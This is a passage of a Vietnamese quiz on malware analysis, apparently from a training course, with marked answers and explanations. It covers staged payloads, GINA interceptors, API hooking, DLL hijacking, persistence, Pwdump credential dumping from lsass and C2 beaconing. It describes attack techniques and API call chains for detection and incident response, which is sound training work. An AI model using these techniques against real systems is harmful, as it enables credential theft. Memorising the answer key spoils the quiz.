**Câu 9.** Tại sao Staged payload khó phát hiện hơn Stageless payload?

- [x] Stage 2 chạy hoàn toàn trong memory, không ghi file xuống disk nên AV truyền thống không scan được
- [ ] Staged payload nhỏ hơn nên AV bỏ qua
- [ ] Stage 2 được encrypt nên không bị detect
- [ ] Staged payload không dùng network nên IDS không phát hiện

??? info "Giải thích"
    AV truyền thống scan file trên disk. Staged payload chỉ để dropper nhỏ trên disk — Stage 2 được inject thẳng vào memory. Cần **memory forensics** (Volatility) hoặc **behavioral detection** để phát hiện.

---

**Câu 10.** Phân tích một DLL đáng ngờ, bạn thấy nó export hơn 15 hàm có tên bắt đầu bằng `Wlx`. Kết luận nào phù hợp nhất?

- [x] Đây là GINA interceptor — DLL này giả mạo msgina.dll để bắt credentials
- [ ] Đây là keylogger dùng SetWindowsHookEx
- [ ] Đây là SvcHost DLL persistence mechanism
- [ ] Đây là IAT hooking rootkit

??? info "Giải thích"
    `msgina.dll` export các hàm dạng `WlxLogon`, `WlxLogoff`, `WlxLoggedOutSAS`... GINA interceptor phải export đúng các hàm này để đứng giữa WinLogon và msgina.dll thật. Đây là dấu hiệu đặc trưng.

---

**Câu 11.** Sự khác biệt giữa IAT Hooking và Inline Hooking là gì?

- [x] IAT Hooking thay con trỏ hàm trong bảng import; Inline Hooking ghi đè byte code trực tiếp trong DLL
- [ ] IAT Hooking chỉ hoạt động với kernel, Inline Hooking ở user space
- [ ] IAT Hooking cần quyền SYSTEM, Inline Hooking chỉ cần Admin
- [ ] Không có sự khác biệt, cả hai đều sửa Import Address Table

??? info "Giải thích"
    IAT Hooking sửa **pointer** trong IAT của một process cụ thể — dễ detect bằng cách so sánh IAT với địa chỉ thật trong DLL. Inline Hooking sửa **code bytes** trong DLL (thường 5 byte đầu thay bằng `JMP`) — ảnh hưởng mọi process, khó detect hơn.

---

**Câu 12.** Tại sao malware cần `SeDebugPrivilege` dù đã chạy với quyền Administrator?

- [x] Vì các hàm như `CreateRemoteThread`, `TerminateProcess` trên SYSTEM processes yêu cầu đặc quyền cao hơn Administrator
- [ ] Vì Administrator không thể đọc registry
- [ ] Vì SeDebugPrivilege cho phép bypass UAC
- [ ] Vì Administrator không thể tạo file trong System32

??? info "Giải thích"
    Trên Windows, **SYSTEM > Administrator**. Để thao tác với process chạy dưới SYSTEM (như lsass.exe), cần SeDebugPrivilege — đặc quyền này cho phép Admin "elevate" để access process của SYSTEM.

---

**Câu 13.** DLL Load-Order Hijacking KHÔNG thể áp dụng trong trường hợp nào?

- [x] DLL nằm trong danh sách KnownDLLs và process cũng nằm trong System32
- [ ] DLL nằm trong PATH environment variable
- [ ] Application chạy từ Desktop của user
- [ ] DLL không có digital signature

??? info "Giải thích"
    DLL Hijacking chỉ hiệu quả khi: process KHÔNG ở System32 VÀ DLL target KHÔNG trong KnownDLLs. Nếu cả hai điều kiện đều thỏa mãn (DLL được KnownDLLs bảo vệ), Windows load thẳng từ registry path, bỏ qua search order.

---

**Câu 14.** Tại sao Winlogon Notify nguy hiểm hơn Run Key trong persistence?

- [x] Winlogon Notify có thể load trong Safe Mode, còn Run Key thường bị bỏ qua khi boot Safe Mode
- [ ] Winlogon Notify không thể bị Autoruns detect
- [ ] Winlogon Notify chạy với quyền cao hơn
- [ ] Winlogon Notify không cần ghi vào registry

??? info "Giải thích"
    Safe Mode là chế độ thường dùng để remove malware. Run Key không chạy trong Safe Mode. Nhưng Winlogon Notify hook vào event của winlogon.exe — process này chạy ngay cả trong Safe Mode → malware vẫn khởi động được.

---

### Tầng 3 — Vận dụng

**Câu 15.** Trong một cuộc điều tra incident response, bạn phát hiện: `lsass.exe` có một DLL lạ được inject vào; DLL đó export hàm `GetHash`; và có file `lsaext.dll` trong thư mục temp. Bạn kết luận gì và bước tiếp theo là gì?

- [x] Đây là Pwdump hoặc variant — attacker đã dump NTLM hashes. Cần kiểm tra network traffic để xem hashes có bị exfiltrate không, và reset password toàn bộ user bị ảnh hưởng.
- [ ] Đây là keylogger — cần kiểm tra file log trong temp folder.
- [ ] Đây là reverse shell — cần check firewall logs cho outbound connections.
- [ ] Đây là GINA interceptor — kiểm tra registry key GinaDLL.

??? info "Giải thích"
    `lsaext.dll` inject vào `lsass.exe` với export function `GetHash` là đặc trưng của Pwdump. Hashes NTLM có thể dùng trực tiếp cho pass-the-hash attack mà không cần crack. Ưu tiên: kiểm tra lateral movement và reset credentials.

---

**Câu 16.** Một tổ chức phát hiện traffic HTTP bất thường từ máy nhân viên ra internet với pattern: cứ 60 giây có một request nhỏ (~200 bytes) đến cùng một IP, sau đó có response ~500 bytes. Đây là dấu hiệu của loại malware nào, và kỹ thuật giao tiếp gì?

- [x] C2 beaconing của RAT/backdoor — máy nạn nhân gửi "heartbeat" định kỳ về C2 server để nhận lệnh, giao tiếp qua HTTP port 80 để tránh bị chặn
- [ ] DDoS botnet đang tấn công target
- [ ] Downloader đang tải payload về theo giai đoạn
- [ ] Keylogger đang gửi log keystroke về attacker

??? info "Giải thích"
    Pattern "small request → small response" theo chu kỳ đều đặn là dấu hiệu điển hình của **C2 beaconing**. Máy nạn nhân hỏi "có lệnh gì không?" định kỳ. Giao tiếp HTTP port 80 để lẫn vào web traffic hợp lệ. Cần block IP đó và isolate máy ngay.

---

**Câu 17.** Bạn đang phân tích malware và thấy nó: (1) gọi `OpenProcessToken` → `LookupPrivilegeValue("SeDebugPrivilege")` → `AdjustTokenPrivileges`; (2) sau đó gọi `OpenProcess` trên PID của `lsass.exe`; (3) cuối cùng gọi `CreateRemoteThread`. Toàn bộ chuỗi này thực hiện gì?

- [x] Leo thang đặc quyền lên SYSTEM → mở LSASS process → inject DLL để dump credentials
- [ ] Tạo persistence thông qua remote thread injection vào LSASS
- [ ] Cài keylogger vào LSASS để bắt password khi user đăng nhập
- [ ] Thiết lập reverse shell thông qua LSASS process

??? info "Giải thích"
    Đây là chuỗi 3 bước kinh điển của credential dumper: (1) Dùng `SeDebugPrivilege` để nâng đặc quyền Admin → SYSTEM; (2) `OpenProcess(lsass.exe)` có được quyền SYSTEM; (3) `CreateRemoteThread` inject DLL (như `lsaext.dll`) để chạy trong context của lsass.exe và extract hash.
